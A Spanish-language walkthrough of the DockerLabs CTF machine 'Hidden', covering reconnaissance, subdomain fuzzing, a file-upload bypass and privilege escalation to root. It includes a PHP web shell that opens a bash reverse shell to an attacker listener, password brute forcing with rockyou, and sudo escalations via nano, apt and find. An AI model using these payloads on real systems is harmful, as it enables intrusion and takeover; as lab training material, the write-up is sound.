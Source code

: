 Máquina "Hidden" de la plataforma [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Medio

![Hidden](images/hidden/img/Dockerlabs.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sun Dec 15 01:33:23 2024 as: nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-12-15 01:33:24 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://hidden.lab/
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: localhost

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 15 01:33:32 2024 -- 1 IP address (1 host up) scanned in 8.59 seconds
```

vemos un solo puerto abierto:

• `Puerto 80: Apache httpd 2.4.52`

Si vemos en el escaneo, tenemos un dominio:

`"hidden.lab"`

por lo que lo añadiremos al `/etc/hosts` de la siguiente manera:

```css
echo "172.17.0.2	hidden.lab" >> /etc/hosts
```

Una vez entramos desde el navegador, no encontramos nada útil, pero teniendo en cuenta que hay un dominio, también puede tener un subdominio, por lo que usaremos `ffuf` para intentar fuzzear subdominios. Para hacerlo, debemos ejecutarlo de la siguiente manera:

```css
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://hidden.lab" -H "Host: FUZZ.hidden.lab" -fl 10
```

```ruby

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://hidden.lab
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.hidden.lab
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 10
________________________________________________

dev                     [Status: 200, Size: 1653, Words: 550, Lines: 58, Duration: 2ms]
:: Progress: [114441/114441] :: Job [1/1] :: 11111 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

Como vemos tenemos un subdominio, por lo que volveremos a editar el `/etc/hosts` pero borramos lo que hicimos antes y ponemos esto en la misma linea:

```css
172.17.0.2	hidden.lab dev.hidden.lab
```

Ahora si vamos desde la web, veremos el siguiente panel de subida de archivos:

![Subir_Archivos](images/hidden/img/Panel.png)

# Intrusión

Si leemos bien, dice que no se permite la subida de php, pero podriamos intentar subir un phtml. Para esto, creamos un archivo llamado "shell.phtml" y ponemos el siguiente contenido:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

Luego, lo subimos en la web, escuchamos con netcat en el puerto 443 (`sudo nc -nlvp 443`) y luego vamos a `/uploads/shell.phtml`. Una vez hacemos todo eso, ya estaremos dentro de la maquina.

# Escalada de privilegios

### www-data

Siendo www-data, creamos un script en `/tmp` el cual dentro tenga copiado el siguiente script:

[Multi-su_force.sh](https://github.com/Maciferna/multi-Su_Force/blob/main/multi-su_force.sh)

Una vez lo tenemos, ejecutamos lo siguiente en nuestro host:

```css
sudo apt install xclip && cat /user/share/wordlist/rockyou.txt | head -n 500 | xclip -sel clip
```

esto lo que hará, sera instalar `xclip` si no lo tenemos, y luego copiar las primeras 500 lineas del rockyou (esa ruta es para kali linux, se debe cambiar en caso que no esté ahi), luego volvemos a la maquina y creamos la wordlist con las contraseñas. Una vez ejecutado el script, veremos lo siguiente:

![Cafetero-pass](images/hidden/img/cafetero.png)

(si no funciona, se debe cambiar la linea del script que dice `if timeout 0.073` por `if timeout 0.1`)

Teniendo la contraseña, escalamos a el usuario "cafetero" con `su cafetero`.

### Cafetero

Si ejecutamos `sudo -l` veremos que podemos ejecutar `nano` como el usuario "john", por lo que vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo) para poder escalar al usuario john.

### John

Nuevamente, si ejecutamos `sudo -l` veremos que podemos ejecutar `apt` como el usuario "bobby", y para escalar debemos ejecutar lo siguiente:

```css
sudo -u bobby apt changelog apt
```

y luego de ejecutarlo escribir lo siguiente y darle al enter:

```css
!/bin/bash
```

### Bobby

Siendo bobby, podremos ejecutar el binario `find` como root, y para escalar debemos ejecutar lo siguiente:

```css
sudo find . -exec /bin/bash \; -quit
```

## Root

![Root](images/hidden/img/root.png)



Gracias por leer :)